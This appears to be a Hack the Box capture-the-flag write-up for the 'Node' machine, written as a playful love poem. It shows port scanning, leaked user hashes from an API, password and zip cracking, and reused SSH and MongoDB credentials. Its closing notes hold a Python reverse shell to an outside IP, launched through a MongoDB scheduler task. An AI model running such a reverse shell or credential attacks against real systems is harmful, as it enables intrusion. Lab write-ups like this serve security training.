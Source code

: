 ```yaml
---
layout: post
title:  "Hack the Box - Node"
date:   2018-03-07 16:16:01 -0600
categories: hackthebox nosql webapp reversing mongo mongodb hacking writeup
---
```


<img class="header-img" src="{{ "img/node/home.png" | relative_url }}" />

Node was a special box to me. It was a special box because it was my first "first blood", and it got me truely addicted to (https://hackthebox.eu)[hackthebox]. In light of this, I'm going mix things up and bit and make the following writeup a love note to Node:

Oh, Node,
it has been some time since we last spoke.
It's been a while since my sweet TCP packets,
probed your open ports.

{% highlight shell %}
root@hack ~# nmap -p- -T4 node.htb
{% endhighlight %}

You rebuffed my attempts on 80. On 8080, 443, and more.
But you invited me into your space, into yourplace, into port 3000.
Yes, you did.

I dug into your deepest secrets.
And into the APIs which b(urp)equeathed your user sequence.
I saw you clearly, inside and out; cut through your defences:
turned `/api/users/latest` to `/api/users` and saw your sweet response:

{% highlight shell %}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 611
ETag: W/"263-mJMXKDfX6c4pdWF3bLjHuBIvsM0"
Date: Wed, 07 Mar 2018 13:51:16 GMT
Connection: close

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
{% endhighlight %}

You past lovers? I cared not.
But an `admin` flag, is an `admin` flag, and must always be followed. Its hash looked weak.
Indeed, it was. (https://crackstation.net)["manchester"].

With each keystroke, we grew closer
m.y.P.1.4.c.e.A.d.m.1.n.A.c.c.0.u.N.T.
m.a.n.c.h.e.s.t.e.r.

You offered me your memories, encoded in mystery. I was undeterred.

{% highlight shell %}
root@hack ~/Downloads# base64 -d myplace.backup > myplace.what
root@hack ~/Downloads# file myplace.what
myplace.what: Zip archive data, at least v1.0 to extract
{% endhighlight %}

But still, you resisted me.

{% highlight shell %}
root@hack ~/Downloads# unzip myplace.what
Archive:  myplace.what
  creating: var/www/myplace
[myplace.what] var/www/myplace/package-lock.json password:
{% endhighlight %}

{% highlight shell %}
root@hack ~/Downloads# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace.what


PASSWORD FOUND!!!!: pw == magicword
root@hack ~/Downloads# unzip -P magicword myplace.what
rock@hack ~/Downloads# head -n 11 var/www/myplace/app.js | tail -n 1
const url        = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
{% endhighlight %}

`mark`...?
`mark`.
"Who is this `mark`?" I wondered. What boundries had you let him pass?
Nevermind. I had his secret, and he made a fatal mistake, leaving this behind.

{% highlight shell %}
root@hack ~# ssh mark@node.htb
{% endhighlight %}

mark password for mongo: 5AYRft73VtFpc84k and ssh
/var/scheduler/app.js > runs mongo tasks
db.auth("mark","5AYRft73VtFpc84k")
insert tasks to print flag
FIRST BLOOD BABY
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.14.22',4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
use scheduler to run
db.tasks.insert({"_id":"1","cmd":"python /tmp/over/over.py"})
get shell
reverse backup to see that it blacklists characters and needs a key
run from / and backup /root
get key
win


_fin_
